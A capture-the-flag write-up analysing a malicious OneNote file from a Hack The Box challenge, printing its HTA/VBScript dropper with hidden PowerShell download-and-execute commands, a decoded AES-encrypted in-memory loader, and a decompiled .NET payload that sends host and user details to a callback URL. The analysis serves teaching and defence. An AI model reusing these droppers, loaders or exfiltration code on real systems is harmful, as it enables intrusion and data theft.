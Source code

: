 # On The Rescue Challenge Writeup by Om Honrao

## Challenge Description

```
Pandora received an email with a link claiming to have information about the location of the relic and attached ancient city maps, but something seems off about it. Could it be rivals trying to send her off on a distraction? Or worse, could they be trying to hack her systems to get what she knows?Investigate the given attachment and figure out what's going on and get the flag. The link is to http://relicmaps.htb:/relicmaps.one. The document is still live (relicmaps.htb should resolve to your docker instance).
```

## Attachments

Contains Docker instance which gets a file called [relicmaps.one](./relicmaps.one)

## Solution

For this chall as i said no attachment was provided but a docker instance that led to a file which i already mentioned. I started with `file` command but it was data file so i ran `binwalk` and this is the result:
```bash
$ binwalk --dd ".*" relicmaps.one

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
10388         0x2894          PNG image, 1422 x 900, 8-bit/color RGBA, non-interlaced
10924         0x2AAC          Zlib compressed data, best compression
47215         0xB86F          HTML document header
48865         0xBEE1          HTML document footer
50084         0xC3A4          PNG image, 32 x 32, 8-bit/color RGBA, non-interlaced
50636         0xC5CC          PNG image, 440 x 66, 8-bit/color RGB, non-interlaced
50727         0xC627          Zlib compressed data, compressed
```
So we have a PNG image and a Zlib compressed data. I extracted the PNG image and opened it in `gimp` and it was a map of some city. I tried to zoom in but it was not clear but one wierd thing i noticed that it had HTML data too which binwalk did not extract..Hmm its wierd where did the HTML code go? I tried strings on it and this was when i found the malware which was in HTML code itself as follows:

```html
<!DOCTYPE html>
<html>
<head>
<HTA:APPLICATION icon="#" WINDOWSTATE="normal" SHOWINTASKBAR="no" SYSMENU="no"  CAPTION="no" BORDER="none" SCROLL="no" />
<script type="text/vbscript">
' Exec process using WMI
Function WmiExec(cmdLine ) 
    Dim objConfig 
    Dim objProcess 
    Set objWMIService = GetObject("winmgmts:\\.\root\cimv2")
    Set objStartup = objWMIService.Get("Win32_ProcessStartup")
    Set objConfig = objStartup.SpawnInstance_
    objConfig.ShowWindow = 0
    Set objProcess = GetObject("winmgmts:\\.\root\cimv2:Win32_Process")
    WmiExec = dukpatek(objProcess, objConfig, cmdLine)
End Function
Private Function dukpatek(myObjP , myObjC , myCmdL ) 
    Dim procId 
    dukpatek = myObjP.Create(myCmdL, Null, myObjC, procId)
End Function
Sub AutoOpen()
    ExecuteCmdAsync "cmd /c powershell Invoke-WebRequest -Uri http://relicmaps.htb/uploads/soft/topsecret-maps.one -OutFile $env:tmp\tsmap.one; Start-Process -Filepath $env:tmp\tsmap.one"
	    ExecuteCmdAsync "cmd /c powershell Invoke-WebRequest -Uri http://relicmaps.htb/get/DdAbds/window.bat -OutFile $env:tmp\system32.bat; Start-Process -Filepath $env:tmp\system32.bat"
End Sub
' Exec process using WScript.Shell (asynchronous)
Sub WscriptExec(cmdLine )
    CreateObject("WScript.Shell").Run cmdLine, 0
End Sub
Sub ExecuteCmdAsync(targetPath )
    On Error Resume Next
    Err.Clear
    wimResult = WmiExec(targetPath)
    If Err.Number <> 0 Or wimResult <> 0 Then
        Err.Clear
        WscriptExec targetPath
    End If
    On Error Goto 0
End Sub
window.resizeTo 0,0
AutoOpen
Close
</script>
</head>
<body>
</body>
</html>"
```
Fetching topsecret-maps.one seems like a dead end, but windows.bat is interesting so i downloaded it instead of topsecret-maps.one and am not including it here because no use of it so anyways lets move ahead.

I saw that .bat file and it contains :
```ps1
@echo off
set "eFlP=set "
%eFlP%"ualBOGvshk=ws"
%eFlP%"PxzdwcSExs= /"
%eFlP%"ndjtYQuanY=po"
%eFlP%"cHFmSnCqnE=Wi"
%eFlP%"CJnGNBkyYp=co"
%eFlP%"jaXcJXQMrV=rS"
...
:: SEWD/RSJz4q93dq1c+u3tVcKPbLfn1fTrwl01pkHX3+NzcJ42N+ZgqbF+h+S76xsuroW3DDJ50IxTV/PbQICDVPjPCV3DYvCc244F7AFWphPY3kRy+618kpRSK2jW9RRcOnj8dOuDyeLwHfnBbkGgLE4KoSttWBplznkmb1l50KEFUavXv9ScKbGilo9+85NRKfafzpZjkMhwaCuzbuGZ1+5s9CdUwvo3znUpgmPX7S8K4+uS3SvQNh5iPNBdZHmyfZ9SbSATnsXlP757ockUsZTEdltSce4ZWF1779G6RjtKJcK4yrHGpRIZFYJ3pLosmm7d+SewKQu1vGJwcdLYuHOkdm5mglTyp20x7rDNCxobvCug4Smyrbs8XgS3R4jHMeUl7gdbyV/eTu0bQAMJnIql2pEU/dW0krE90nlgr3tbtitxw3p5nUP9hRYZLLMPOwJ12yNENS7Ics1ciqYh78ZWJiotAd4DEmAjr8zU4U...
...
%CJnGNBkyYp%%UBndSzFkbH%%ujJtlzSIGW%%nwIWiBzpbz%%cHFmSnCqnE%%kTEDvsZUvn%%JBRccySrUq%%ZqjBENExAX%%XBucLtReBQ%%BFTOQBPCju%%vlwWETKcZH%%NCtxqhhPqI%%GOPdPuwuLd%%YcnfCLfyyS%%JPfTcZlwxJ%%ualBOGvshk%%xprVJLooVF%%cIqyYRJWbQ%%jaXcJXQMrV%%pMrovuxjjq%%KXASGLJNCX%%XzrrbwrpmM%%VCWZpprcdE%%tzMKflzfvX%%ndjtYQuanY%%chXxviaBCr%%tHJYExMHlP%%WmUoySsDby%%UrPeBlCopW%%lYCdEGtlPA%%eNOycQnIZD%%PxzdwcSExs%%VxroDYJQKR%%zhNAugCrcK%%XUpMhOyyHB%%OOOxFGwzUd%
cls
%dzPrbmmccE%%xQseEVnPet%
%eDhTebXJLa%%vShQyqnqqU%%KsuJogdoiJ%%uVLEiIUjzw%%SJsEzuInUY%%gNELMMjyFY%%XIAbFAgCIP%%weRTbbZPjT%%yQujDHraSv%%zwDBykiqZZ%%nfEeCcWKKK%%MtoMzhoqyY%%igJmqZApvQ%%SIQjFslpHA%%KHqiJghRbq%%WSRbQhwrOC%%BGoTReCegg%%WYJXnBQBDj%%SIneUaQPty%%WTAeYdswqF%%  
```
Hmm seems obfuscated i made few scripts to decode it and i had to do some manual stuff so i ain't including the script but yeah i got the following code which is more readable:
```ps1
copy C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe /y %~0.exe

cls
cd %~dp0
%~nx0.exe -noprofile -windowstyle hidden -ep bypass -command $eIfqq = [System.IO.File]::('txeTllAdaeR'[-1..-11] -join '')('%~f0').Split([Environment]::NewLine)

foreach ($YiLGW in $eIfqq) { 
	if ($YiLGW.StartsWith(':: ')) {  
		$VuGcO = $YiLGW.Substring(3)
 		break
 	}
}

$uZOcm = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')($VuGcO)
$BacUA = New-Object System.Security.Cryptography.AesManaged
$BacUA.Mode = [System.Security.Cryptography.CipherMode]::CBC
$BacUA.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
$BacUA.Key = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('0xdfc6tTBkD+M0zxU7egGVErAsa/NtkVIHXeHDUiW20=')
$BacUA.IV = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('2hn/J717js1MwdbbqMn7Lw==')
$Nlgap = $BacUA.CreateDecryptor()
$uZOcm = $Nlgap.TransformFinalBlock($uZOcm, 0, $uZOcm.Length)
$Nlgap.Dispose()
$BacUA.Dispose()
$mNKMr = New-Object System.IO.MemoryStream(, $uZOcm)
$bTMLk = New-Object System.IO.MemoryStream
$NVPbn = New-Object System.IO.Compression.GZipStream($mNKMr, [IO.Compression.CompressionMode]::Decompress)
$NVPbn.CopyTo($bTMLk)
$NVPbn.Dispose()
$mNKMr.Dispose()
$bTMLk.Dispose()
$uZOcm = $bTMLk.ToArray()
$gDBNO = [System.Reflection.Assembly]::('daoL'[-1..-4] -join '')($uZOcm)
$PtfdQ = $gDBNO.EntryPoint
$PtfdQ.Invoke($null, (, [string[]] ('%*')))
```
While some obfuscation remains (reversed function names) the script is well understandable. It basically copies powershell to the local folder and renames the exe to match the scripts name.

After that the script reads itself and scans for a line that starts with ':: '. This is the encrypted payload.

Then the payload gets decrypted and decompressed. The key and `iv` for `AES` decryption is provided as base64 decoded string. In the last step an assembly instance is created and invoked.

If PowerShell is at hand we can extract the payload with the script (after removing the invocation of the payload of course). Otherwise a small python script can do the same thing ( i used python):

```python
import base64
from Crypto.Cipher import AES
import gzip

with open("payload") as file:
    lines = file.readlines()

key = base64.b64decode("0xdfc6tTBkD+M0zxU7egGVErAsa/NtkVIHXeHDUiW20=")
iv = base64.b64decode("2hn/J717js1MwdbbqMn7Lw==")
payload = base64.b64decode(lines[0])

cipher = AES.new(key, AES.MODE_CBC, iv)
decrypted = cipher.decrypt(payload)
decompressed = gzip.decompress(payload)

with open("payload.decrypted", "wb") as out:
    out.write(decompressed)
```
The payload is a base64 encoded string that gets decrypted and decompressed. The result is a PE file that can be executed but ofc we don't run it :skull:..

```bash
$ file payload
payload: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows
```
This can quickly be decompiled with ILSpy.

```ps1
private static void Main(string[] args)
{
	IPAddress iPAddress = Dns.GetHostAddresses(Dns.GetHostName()).FirstOrDefault((IPAddress ip) => ip.AddressFamily == AddressFamily.InterNetwork);
	string machineName = Environment.MachineName;
	string userName = Environment.UserName;
	DateTime now = DateTime.Now;
	string text = "HTB{0neN0Te?_iT'5_4_tr4P!}";
	string s = $"i={iPAddress}&n={machineName}&u={userName}&t={now}&f={text}";
	Aes aes = Aes.Create("AES");
	aes.Mode = CipherMode.CBC;
	aes.Key = Convert.FromBase64String("B63PbsPUm3dMyO03Cc2lYNT2oUNbzIHBNc5LM5Epp6I=");
	aes.IV = Convert.FromBase64String("dgB58uwgaohVelj4Xhs7RQ==");
	aes.Padding = PaddingMode.PKCS7;
	ICryptoTransform cryptoTransform = aes.CreateEncryptor();
	byte[] bytes = Encoding.UTF8.GetBytes(s);
	string text2 = Convert.ToBase64String(cryptoTransform.TransformFinalBlock(bytes, 0, bytes.Length));
	Console.WriteLine(text2);
	HttpClient httpClient = new HttpClient();
	HttpRequestMessage httpRequestMessage = new HttpRequestMessage
	{
		RequestUri = new Uri("http://relicmaps.htb/callback"),
		Method = HttpMethod.Post,
		Content = new StringContent(text2, Encoding.UTF8, "application/json")
	};
	Console.WriteLine(httpRequestMessage);
	HttpResponseMessage result = httpClient.SendAsync(httpRequestMessage).Result;
	Console.WriteLine(result.StatusCode);
	Console.WriteLine(result.Content.ReadAsStringAsync().Result);
}
```

Reading through that it seems invoking the script would have called back to relicmaps.htb with some user information. Apart from that the flag is ready for capture!

## Flag
```
HTB{0neN0Te?_iT'5_4_tr4P!}
```

## Contact info

This challenge was solved by Om Honrao (Discord ID: Inv1s1bl3#7047). If you have any questions or feedback, feel free to reach out to me.